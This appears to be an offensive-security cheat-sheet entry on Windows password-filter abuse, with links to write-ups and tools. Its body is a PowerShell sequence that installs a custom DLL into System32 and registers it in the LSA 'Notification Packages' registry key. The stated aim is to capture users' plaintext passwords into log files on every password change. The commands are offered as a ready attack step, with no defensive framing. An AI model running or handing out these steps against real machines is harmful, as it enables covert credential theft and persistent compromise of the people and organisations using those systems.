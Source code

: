 # Password Filter

* [https://clymb3r.wordpress.com/2013/09/15/intercepting-password-changes-with-function-hooking/](https://clymb3r.wordpress.com/2013/09/15/intercepting-password-changes-with-function-hooking/)
* [https://github.com/clymb3r/Misc-Windows-Hacking/tree/master/HookPasswordChange](https://github.com/clymb3r/Misc-Windows-Hacking/tree/master/HookPasswordChange)
* [https://pentestlab.blog/2020/02/10/credential-access-password-filter-dll/](https://pentestlab.blog/2020/02/10/credential-access-password-filter-dll/)
* [https://github.com/3gstudent/PasswordFilter](https://github.com/3gstudent/PasswordFilter)

Abuse `PasswordChangeNotify` to load a custom DLL capturing plaintext credentials when a password change is performed (the passwords will appear in `C:\logFile?.txt` files):

```powershell
PS > $passwordFilterName = (Copy-Item "Win32Project3.dll" -Destination "C:\Windows\System32" -PassThru).basename
PS > $lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
PS > $notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
PS > $notificationPackagesValues += $passwordFilterName
PS > Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
PS > Restart-Computer -Confirm
```
